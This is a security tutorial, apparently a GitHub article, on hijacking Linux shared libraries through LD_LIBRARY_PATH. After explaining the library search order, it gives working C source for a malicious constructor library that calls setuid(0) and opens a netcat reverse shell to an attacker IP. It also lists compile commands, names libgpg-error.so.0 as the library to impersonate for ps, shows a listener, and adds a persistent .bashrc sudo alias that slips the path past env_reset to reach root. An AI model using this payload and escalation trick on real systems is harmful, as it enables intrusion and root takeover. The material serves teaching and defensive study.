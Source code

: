 # Hijcaking Shared Library
* * *
## Intoduction To Linux Shared Libraries

You can think of shared libraries as a collection of functions and data designed to be used by multiple programs. They are typically identified by the `.so` (shared object) extension and are linked dynamically at runtime, which not only reduces the size of executables but also boosts system efficiency. However, it's important to note that any changes to a shared library can impact all the programs that rely on it.
In the Linux ecosystem, shared libraries commonly use the Executable and Linkable Format (ELF), a standard file format for executables, object code, shared libraries, etc.

## The Search Path for Shared Libraries

When a Linux application is executed, it follows a specific sequence to locate its required libraries. Once it finds the required library, it stops searching and loads that library. Here’s how the search process works:
- The application first checks the directories listed in its Runtime Library Search Path (`RPATH`), which is embedded within the executable itself.
- Next, it looks in the directories specified in the `LD_LIBRARY_PATH` environment variable. This variable allows users to define custom library paths without modifying the system-wide configuration.
- Similar to RPATH, the Runtime Search Path (`RUNPATH`) is another directory list embedded in the executable but is checked after `LD_LIBRARY_PATH`.
- The application then checks the directories listed in /etc/ld.so.conf configuration file. 
- Finally, the search proceeds to the standard system library directories, which include `/lib`, `/lib64`, `/usr/lib`, `/usr/lib64`.


## Hijcak Shared Library: A Practical Guide

Looking at how Linux searches for shared libraries reveals a potential security risk: an attacker can manipulate this process by placing malicious versions of libraries in earlier locations, thus controlling the application's behavior. This technique, known as library hijacking, exploits the order in which Linux searches for shared libraries.

One common method involves controlling the `LD_LIBRARY_PATH` environment variable. This variable allows users to override the default library paths, often used for testing new library versions. However, it can also be exploited to inject malicious libraries, altering a program's behavior or even executing harmful code to escalate privileges.

Let’s dive into a practical example. We'll demonstrate how to hijack the execution of a program on a testing machine running Ubuntu by introducing a malicious library called `mylibrary`.

### Writing the Malicious Library

First, we need to create our malicious library. The following C code defines a library that opens a reverse shell when loaded

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void revShell() __attribute__((constructor));

void revShell() {
	setuid(0);
	setgid(0);
	printf("Reverse Shell via library hijacking... \n");
		const char *ncshell = "nc -e /bin/sh 192.168.171.1 7777 &";
	system(ncshell);
}
```

The first four lines consist of standard header files. Following this, `revShell()` is declared with the constructor attribute. A constructor is a function that executes when the library is first initialized to set up necessary code. After that, the `revShell()` constructor function is implemented. Within this function, we set the user ID (`UID`) and group ID (`GID`) to 0, providing root privileges if executed in a sudo context. Additionally, a message is printed to indicate the execution of the code. Finally, netcat is used to establish a reverse shell, connecting to the attacker's machine on port 7777.

### Compiling the Malicious Library

To compile our shared library, we use the following commands:

```sh
gcc -Wall -fPIC -c mylibrary.c -o mylibrary.o
```

- `-Wall`: Enables all compiler's warning messages.
- `-fPIC`: Generates position-independent code, suitable for shared libraries.
- `-c`: Compiles the code without linking.
- `-o`: Specifies the output file name.

### Create the Shared Library

After compliation is done, we need to create the shared library. This is done by using the `-shared` parameter to tell `gcc` we’re creating a shared library from our object file. We then specify an output file again, this time with the name `libhax.so`

```sh
gcc -shared mylibrary.o -o libmylibrary.so
```


### Identifying a Suitable Application

After creating our malicious shared library, the next step is to use it. Two considerations arise: firstly, selecting a program that the victim is likely to execute with elevated privileges, and secondly, ensuring that the hijacking of a shared library does not cause the program to crash. Remember, when we hijack a library, it will not be available to that program.

For this demonstartion we will use the `ps` command as our target. Users often run ps with sudo to display processes with elevated permissions, making it a suitable candidate for our attack.

Let's identify the libraries `ps` uses. We'll use the `ldd` command on the target machine to list these libraries. The output will include something like:

```sh
ldd /bin/ps
	....
	libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ffff6614000)

```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/ldd_ps.png)

The `libgpg-error.so.0` library appears to be a good candidate for hijacking. It handles error reporting and is likely to be loaded but not frequently called during normal operation, minimizing the risk of breaking the program.

### Setting Up the Environment

Next, we set up the environment to hijack the `libgpg-error.so.0` library. We will rename our malicious `.so` file to match the target library and configure the `LD_LIBRARY_PATH` to point to the location of our malicious library:

```sh
cd /home/msbit/Labs/shared_lib/ld_lib_path
export LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path
cp libmylibrary.so libgpg-error.so.0
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/cp.png)

### Executing the Target Program

Before running the ps command with our malicious library, we need to set up a netcat listener on the attacker's machine. This listener will wait for the reverse shell connection on port 7777.

```sh
rlwrap nc -lvp 7777
```

Now, with our environment prepared, we can execute the `ps` command on the target's machine. 

```sh
ps
ps: /home/msbit/Labs/shared_lib/ld_lib_path/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
Reverse Shell via library hijacking... 
   PID TTY          TIME CMD
  2023 pts/18   00:00:00 bash
  2824 pts/18   00:00:00 ps
  2826 pts/18   00:00:00 sh
```

On the attacker's terminal, you should now see the reverse shell connection. This output indicates that the shell is running with the privileges of the user who executed the `ps` command. 

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/userpriv.png)

However, if the user runs `ps` command with sudo, no reverse shell will be received at the attacker side, (why is that?).

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/no_reverse_shell.png)


## Gaining Root Shell

One of the challenges in exploiting the `LD_LIBRARY_PATH` environment variable is that most modern operating systems do not pass user environment variables when using `sudo`. This behavior is controlled by the `env_reset` setting in the `/etc/sudoers` file, which is enabled by default. When `env_reset` is active, running a command with `sudo` will not include `LD_LIBRARY_PATH` or other user-defined environment variables. This can limit the effectiveness of our library hijacking attempt, as the malicious library won't be loaded when the program is executed with elevated privileges.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/sudoers.png)

One trick we can use to bypass this restriction is to create an alias for `sudo` that includes the `LD_LIBRARY_PATH` variable. This method can be applied temporarily in the current terminal session or by adding it to the `.bashrc` file.
- Temporary Alias:

```sh
alias sudo='sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path'
```

- Persistent Alias in .bashrc

```sh
echo 'alias sudo="sudo LD_LIBRARY_PATH=/home/msbit/Labs/shared_lib/ld_lib_path"' >> ~/.bashrc
source ~/.bashrc
```
By setting this alias, any command run with sudo will include our modified `LD_LIBRARY_PATH`.

Let's try again, before running the `ps` command with `sudo`, set up a netcat listener on the attacker's machine to capture the reverse shell. Now, execute the `ps` command with `sudo`

```sh
sudo ps
```

On the attacker's terminal, you should see the reverse shell connection. This indicates that the shell is now running with root privileges due to the `sudo` command

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/HijackingSharedLibraries/images/rootShell.png)


Happy Learning... <br>
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
